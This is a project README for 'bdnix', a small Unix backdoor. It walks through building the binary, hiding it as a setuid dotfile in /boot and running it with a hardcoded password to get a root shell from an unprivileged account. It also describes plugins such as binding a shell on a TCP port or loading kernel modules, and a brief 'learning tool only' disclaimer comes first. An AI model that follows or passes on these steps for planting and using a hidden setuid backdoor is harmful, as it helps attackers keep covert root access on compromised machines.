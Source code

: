 <pre>
 _         _       _      
| |       | |     (_)     
| |__   __| |_ __  ___  __
| '_ \ / _` | '_ \| \ \/ /
| |_) | (_| | | | | |>  < 
|_.__/ \__,_|_| |_|_/_/\_\
                          

Trivial userspace backdoor for Unix
Emanuele Paiano - nixw0rm@gmail.com

</pre>

<p>This is a learning tool, so use it ONLY on your home systems (like 
Desktop PC or Raspberry Pi). I'm not responsable for abuses. 
Use it at your risk!</p>                      


<h2 class="section-heading">GETTING STARTED</h2>

<ul>
<li>
 <p>Open root terminal in current directory and go into bdnix folder</p>
  <pre>
	# cd /path/bdnix
  </pre>
</li>
<li>
 From root run 'make' to build binary file

	# make

 copy created file (i.e. libbd.so) with -p option to a hidden location like /bin, /etc,

        # cp -p libbd.so /boot/.libbd.so
        # chmod +sx /boot/.libbd.so
        
   and setuid file (chmod +x).


4) logout from server and log in again with unprivileged user. 

5) Run binary with

	$ /boot/.libbd.so joshua /bin/sh

   if you see '#' then.. you are root! :)



---------------------
 CUSTOMIZE PASSWORD
---------------------

Opening settings.h you can change default password "joshua" (can you remember WOPR?):

        #define ARG1 "joshua"

we can change it to "chips"

        #define ARG1 "chips"

Now recompiling (read above) and running with new password:

        $ /boot/.libbd.so chips /bin/sh
        #

If we have rootshell, it works! :)


------------------
 ENABLING PLUGINS
------------------
Plugins are .h file in plugins/ folders. By plugins you can add code portions and
add new functionaties to bdnix (i.e. binding shell on TCP port, loading kernel module, etc).
To enable a plugin:

1) Open settings.h include file and search for options like:

        /* PLUGINS */

        /* enable rootshell */
        #define SHELL 1
        
2) Change 1 to enable, or 0 to disable code.

Example. If you have rootshell disabled and myplugin enabled:

        /* enable rootshell */
        #define SHELL 0
        
        /* my plugin */
        #define MYPLUGIN 1
        
Your backdoor run MYPLUGIN code and ignore rootshell. You can enable more plugins together: 
all enabled plugins run in sequential mode. 

For adding or writing custom plugin, read WRITING A PLUGIN.


-------------------
 WRITING A PLUGIN
-------------------
1) If you need write plugin, you must create .h file into plugin using next template:

        int <PLUGIN_NAME>_init()
        {
          //code plugin
        }

   replacing <PLUGIN_NAME> with your plugin's name and write you code inside function. 

2) Open bdcode.c and find this code into main():

    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    
   and edit previos code in this:
   
    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    #if <PLUGIN_NAME> == 1
      <PLUGIN_NAME>_init();
    #endif

   removing <PLUGIN_NAME> with you plugin's name.

   TIPS EXAMPLE: You can start to write you plugin editing RAW plugin.



----------
 LICENSE
----------
Trivial userspace backdoor
Copyright (C) 2012  Emanuele Paiano
nixw0rm@gmail.com

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>.
